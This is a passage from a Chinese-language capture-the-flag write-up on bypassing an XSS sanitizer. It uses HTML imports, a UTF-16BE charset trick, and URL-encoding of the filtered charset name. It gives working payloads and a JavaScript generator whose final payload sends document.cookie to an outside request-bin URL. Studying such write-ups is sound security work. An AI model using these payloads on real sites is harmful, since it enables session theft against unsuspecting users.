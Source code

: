 ```
>\n	\u0a3e	ਾ
<b	\u623c	戼
od	\u646f	摯
y>	\u3e79	㹹
```

很显然，`utf-16le`解析得到的结果中存在很多无效字符，如果留在脚本文件中依然会报语法错误，而`utf-16be`的解析结果则恰好都为有效字符。所以这里选择`utf-16be`编码，不过`sanitizer.js`中把`utf-16be`过滤掉了，我们只要把其中一个字符换成URL编码形式即可绕过，如`utf-1%36be`，后续过程中会把它解码回来

按`utf-16be`编码规范对我们的payload进行修改

```html
<!--
<link rel="import"><link rel="import" href="/sandbox?html=<script charset="utf-1%36be" src="sandbox?html=%00%3D%001%00%3B%00a%00l%00e%00r%00t%00%28%001%00%29"></script>">
-->
<link rel="import"><link rel="import" href="/sandbox?html=%3Cscript%20charset%3D%22utf-1%36be%22%20src%3D%22sandbox%3Fhtml%3D%2500%253D%25001%2500%253B%2500a%2500l%2500e%2500r%2500t%2500%2528%25001%2500%2529%22%3E%3C/script%3E">
```

再次提交我们的结果，此时成功的弹窗，观察最后那个关键的请求

![utf-16be.png](http://lc-cf2bfs1v.cn-n1.lcfile.com/ab9f93794817e11f7710.png)

从图中可以看到，由于我们指定了编码，因此前面那些被附加上的内容全部按`utf-16be`编码进行解析，和我们刚才分析的结果一致，在脚本中可以将其视为一个变量名，我们将该语句补充完整，然后即可执行我们附加的代码

现在所有障碍都已绕过，可以构造最终的payload了。

## 0x05 GetFlag

为了方便起见，写一个函数对我们的payload进行编码，如下所示

```js
function gen_payload(e){
	var out = '';
	for(var i = 0; i < e.length; i++){
		out += '\u0000'+e[i];
	}
	out = escape(out);
	var a = "<script charset=\"utf-16be\" src=\"sandbox?html="+out+"\"><\/script>";
	console.log(a);
	a = escape(a).replace('utf-16be','utf-1%36be');

	return a;
}
gen_payload('=1; location.href="https://requestb.in/1447b711?inspect?" + escape(document.cookie);');
```

编码后如下

```html
<link rel="import"><link rel="import" href="/sandbox?html=%3Cscript%20charset%3D%22utf-1%36be%22%20src%3D%22sandbox%3Fhtml%3D%2500%253D%25001%2500%253B%2500%2520%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500.%2500h%2500r%2500e%2500f%2500%253D%2500%2522%2500h%2500t%2500t%2500p%2500s%2500%253A%2500/%2500/%2500r%2500e%2500q%2500u%2500e%2500s%2500t%2500b%2500.%2500i%2500n%2500/%25001%25004%25004%25007%2500b%25007%25001%25001%2500%253F%2500i%2500n%2500s%2500p%2500e%2500c%2500t%2500%253F%2500%2522%2500%2520%2500+%2500%2520%2500e%2500s%2500c%2500a%2500p%2500e%2500%2528%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%2500%2529%2500%253B%22%3E%3C/script%3E">
```
